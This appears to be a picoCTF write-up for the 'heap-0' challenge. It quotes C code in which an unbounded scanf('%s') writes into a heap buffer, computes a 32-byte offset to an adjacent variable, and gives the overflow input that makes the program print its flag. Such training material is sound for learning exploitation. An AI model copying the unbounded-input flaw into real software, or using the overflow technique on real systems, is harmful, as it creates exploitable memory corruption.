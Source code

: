 # heap-0
picoCTF Link: [https://play.picoctf.org/practice/challenge/438](https://play.picoctf.org/practice/challenge/438)

## About

```
Description:
Are overflows just a stack concern?

Hints:
1. What part of the heap do you have control over and how far is it from the safe_var?
```

## Solution

Looking at the files, we find that we need to modify `save_var` to get the flag.

```c
void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

Luckily, the author gives us the exact location of both `input_data` and `safe_var`, which make it very easy to know how much data we need to write into `input_data` before reaching `save_var`. The function that writes is as follow:

```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

```
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5618445cd6b0  ->   pico
+-------------+----------------+
[*]   0x5618445cd6d0  ->   bico
+-------------+----------------+
```

So, all that's left is to substract both addresses `0x5618445cd6d0 - 0x5618445cd6b0 = 0x20`, meanging that we have to write 32 bytes before reaching `save_var`.

## Answer

```
Enter your choice: 2
Data for buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA_
Enter your choice: 4
```